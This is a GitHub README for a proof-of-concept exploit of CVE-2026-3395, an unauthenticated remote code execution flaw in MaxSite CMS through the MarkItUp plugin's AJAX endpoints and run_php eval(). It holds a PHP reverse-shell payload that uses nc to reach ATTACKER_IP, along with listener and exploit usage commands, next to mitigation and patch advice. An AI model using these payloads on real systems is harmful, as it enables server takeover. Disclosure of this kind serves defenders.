

# CVE‑2026‑3395 — MaxSite CMS Unauthenticated Remote Code Execution

[](https://twitter.com/banyamer_security)
[](https://en.wikipedia.org/wiki/Jordan)
[](https://instagram.com/banyamer_security)
[](https://github.com/mbanyamer)
[](https://nvd.nist.gov/vuln/detail/CVE-2026-3395)
[](https://cwe.mitre.org/data/definitions/95.html)
[](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Overview

**Unauthenticated Remote Code Execution (RCE)** vulnerability in **MaxSite CMS ≤ 109.1**.

The flaw arises from weak authorization checks in the MarkItUp editor plugin’s AJAX endpoints, combined with unsafe execution of user‑supplied PHP code by the `run_php` plugin.

* **Discovered / Fixed:** March 2026
* **Patched in:** MaxSite CMS 109.2
* **Vendor:** MaxSite CMS
* **Repository:** maxsite/cms

---

## Description

The vulnerability affects the following files in the MarkItUp editor plugin:

* `preview-ajax.php`
* `autosave-post-ajax.php`

These endpoints:

* Are accessible **without authentication**
* Perform only weak referrer validation (easily bypassed)
* Pass user input to the `run_php` plugin
* Execute `[php]...[/php]` shortcodes using `eval()`

An attacker can send a crafted POST request to the `/ajax/` route containing a Base64‑encoded internal path and malicious PHP payload via the `data` parameter, resulting in:

## 🚨 Full Unauthenticated Remote Code Execution

---

## Attack Flow Diagram



---

## Prerequisites

* MaxSite CMS version **≤ 109.1**
* `run_php` plugin enabled (common default)
* PHP configuration allowing `eval()`

---

## Exploitation

A Python 3 proof‑of‑concept exploit (`exploit.py`) is included.

### Detection Payload (Non‑Destructive)

```php
[php]echo 'RCE CONFIRMED - ' . phpversion();[/php]
```

### Reverse Shell Payload

```php
[php]system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP ATTACKER_PORT >/tmp/f');[/php]
```

---

## Usage

### 1. Start Listener

```bash
nc -lvnp 9001
```

### 2. Run Exploit

```bash
python3 exploit.py http://target.com --lhost 10.10.14.22 --lport 9001
```

---

## Mitigation

### Immediate Actions

* Upgrade to **MaxSite CMS 109.2 or later**
* Disable the `run_php` plugin if not required

### Manual Patch

Add authentication checks to vulnerable files:

```php
if (!is_login()) {
    die('Access denied');
}
mso_checkreferer();
```

---

## References

* Patch Commit
  [https://github.com/maxsite/cms/commit/08937a3c5d672a242d68f53e9fccf8a748820ef3](https://github.com/maxsite/cms/commit/08937a3c5d672a242d68f53e9fccf8a748820ef3)

* Vulnerability Entry
  [https://vuldb.com/?id.348281](https://vuldb.com/?id.348281)

* NVD Record
  [https://nvd.nist.gov/vuln/detail/CVE-2026-3395](https://nvd.nist.gov/vuln/detail/CVE-2026-3395)

---

## Legal Notice

This project is provided for:

* Security research
* Educational purposes
* Authorized penetration testing

⚠️ Do **not** use against systems without explicit permission.

The author assumes no responsibility for misuse or damage.

---

## Author

**Mohammed Idrees Banyamer**
Jordan 🇯🇴
Security Researcher

**banyamer_security — Silent Hunter • Shadow Presence**

March 2026
